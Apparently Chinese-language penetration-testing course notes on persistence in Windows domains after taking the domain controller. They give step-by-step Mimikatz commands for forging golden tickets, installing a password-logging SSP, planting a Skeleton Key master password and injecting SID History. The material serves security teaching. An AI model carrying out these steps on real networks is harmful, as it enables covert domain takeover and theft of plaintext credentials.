





# 课程P84：第57天 - 域内权限维持技术详解 🔐




在本节课中，我们将学习域环境下的四种核心权限维持技术：黄金票据伪造、SSP、Skeleton Key和SID History。这些技术能帮助我们在获取域控权限后，实现持久化控制，确保即使凭证更改也能维持访问权限。

---


## 概述 📋

之前我们介绍了工作组环境下的权限维持技术，它们主要针对单一机器。本节我们将重点转向域环境。域的核心是域控制器，获取其权限意味着控制了整个域。因此，域内权限维持的目标是维持我们在域控制器上的最高权限。本节课将讲解四种常见且关键的域内权限维持方法。

---

## 一、黄金票据伪造 🎫

上一节我们回顾了域环境的特点，本节首先来看第一种权限维持技术：Pass The Ticket中的黄金票据伪造。


票据是域内网络对象互相访问的凭证。黄金票据伪造的核心是伪造票据授予票据。控制了生成票据的机制，就能生成访问任何服务的票据。

### 伪造原理

其原理基于Kerberos认证协议的第二步：AS确认客户端身份。AS会使用存储在域控上的`krbtgt`用户的NTLM哈希作为密钥，加密生成TGT。如果我们获取了`krbtgt`用户的哈希，就可以自己伪造TGT，从而绕过KDC认证，生成访问任意服务的票据。

**核心公式**：`伪造的TGT = 使用krbtgt哈希加密(包含伪造信息的TGT数据)`

### 伪造条件


以下是伪造黄金票据所需的四个条件：
1.  域名称
2.  域的SID值
3.  `krbtgt`账户的密码哈希
4.  要伪造的用户名（可以是任意用户）


### 操作步骤


以下是利用Mimikatz进行黄金票据伪造的具体步骤：


1.  **获取域名称**：执行命令 `whoami`，输出格式为 `域名\用户名`，例如 `de1ay.com\de1ay`。
2.  **获取域SID**：执行命令 `whoami /user`，获取当前用户的SID，去掉末尾的`-1001`这类用户RID，剩余部分即为域SID。
3.  **获取krbtgt哈希**：在拥有域管理员权限的会话中，使用Mimikatz的`dcsync`模块获取：`lsadump::dcsync /user:krbtgt /domain:de1ay.com`
4.  **伪造票据并注入内存**：使用Mimikatz生成黄金票据并直接注入当前会话内存：
    ```bash
    kerberos::golden /user:administrator /domain:de1ay.com /sid:S-1-5-21-2756371121-2868759905-3853650604 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /ptt
    ```
    *   `/user`：指定伪造的用户名。
    *   `/domain`：指定域名。
    *   `/sid`：指定域SID。
    *   `/krbtgt`：指定`krbtgt`用户的NTLM哈希。
    *   `/ptt`：将生成的票据注入内存。


### 票据应用与验证

票据注入后，即可利用该权限访问域控资源。例如，使用`dir \\dc.de1ay.com\c$`命令列出域控的C盘目录。也可以通过横向移动技术，在域控上执行Payload，最终获得域控的Shell。


**清理票据**：在执行新票据前，可使用 `kerberos::purge` 命令清理现有票据。




**生成票据文件**：若不直接注入内存，可生成票据文件供后续使用：
```bash
kerberos::golden /user:administrator /domain:de1ay.com /sid:S-1-5-21-... /krbtgt:550850... /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```


---


## 二、SSP权限维持 🛡️





在了解了基于票据的维持方式后，我们来看第二种方法：利用安全支持提供程序进行权限维持。


SSP用于身份验证，是一个DLL文件。系统启动时，`lsass.exe`进程会加载SSP。我们可以安装一个恶意的SSP DLL，使其记录所有登录到当前系统的明文账号密码。


### 实现方法





主要有两种方法：通过注册表实现持久化，以及通过内存加载实现无文件落地。


**方法一：注册表持久化（需重启）**
1.  将恶意DLL文件（如`mimilib.dll`）上传到目标系统的`C:\Windows\System32\`目录下。
2.  修改注册表，添加该DLL路径：
    *   路径：`HKLM\SYSTEM\CurrentControlSet\Control\Lsa`
    *   键值：`Security Packages`，在原有数据后追加 `, mimilib`
3.  系统重启后，`lsass.exe`会加载该DLL。此后用户登录，明文密码会被记录在 `C:\Windows\System32\kiwissp.log` 中。


**方法二：内存加载（无需重启）**
在已获得权限的会话中，直接使用Mimikatz将SSP加载到内存：
```bash
misc::memssp
```
执行后，用户登录凭证会被记录在 `C:\Windows\System32\mimilsa.log` 中。


---

## 三、Skeleton Key万能密码 🔑

接下来我们看第三种方法：Skeleton Key。这种方法可以在不重启域控的情况下生效。

Skeleton Key被安装在64位的域控服务器上，它允许所有域用户使用一个通用的“万能密码”进行身份验证，同时原有密码依然有效。但使用万能密码登录的用户权限受限，且重启后失效。




### 操作步骤


在已获得域控权限的会话中，使用Mimikatz进行安装：
1.  进入Debug权限模式：`privilege::debug`
2.  安装Skeleton Key：`misc::skeleton`
    *   默认万能密码为：`mimikatz`


安装成功后，在域内任何主机上，都可以使用`域名\用户名`和万能密码`mimikatz`进行网络身份验证（如IPC连接），从而访问域控资源。


---


## 四、SID History权限维持 🪪


最后，我们学习利用SID History属性进行权限维持。

每个用户都有一个唯一的SID来标识其权限。`SID History`属性用于在域迁移时保持用户权限。我们可以将高权限用户（如域管理员）的SID添加到普通用户的`SID History`属性中，从而使该普通用户具备高权限用户的访问能力。

### 操作步骤


使用Mimikatz进行操作：
1.  **Patch NTDS服务**：确保能向`ntds.dit`数据库写入SID History属性。
    ```bash
    sid::patch
    ```
2.  **添加SID History**：将域管理员`administrator`的SID添加到指定用户（如`mig`）的属性中。
    ```bash
    sid::add /sam:mig /new:administrator
    ```
    *   `/sam`：指定目标用户名。
    *   `/new`：指定要添加其SID的源用户名。


### 验证效果


操作成功后，可以使用PowerShell命令验证：
```powershell
Import-Module ActiveDirectory
Get-ADUser mig -Properties sidhistory
```
可以看到`mig`用户的`sidhistory`属性中包含了域管理员的SID。此后，使用`mig`账户即可访问域管理员有权访问的资源。


---


## 总结 🎯


本节课我们一起学习了域环境下的四种权限维持技术：
1.  **黄金票据伪造**：通过获取`krbtgt`哈希伪造TGT，生成任意服务的访问票据。
2.  **SSP**：通过加载恶意SSP DLL，记录系统登录的明文密码。
3.  **Skeleton Key**：在域控安装万能密码，使所有域用户可用通用密码登录。
4.  **SID History**：将高权限用户的SID添加到普通用户属性，实现权限提升。


这些技术各有特点和应用场景，是域渗透后期实现持久化控制的重要手段。理解其原理并掌握操作方法，对于内网渗透测试至关重要。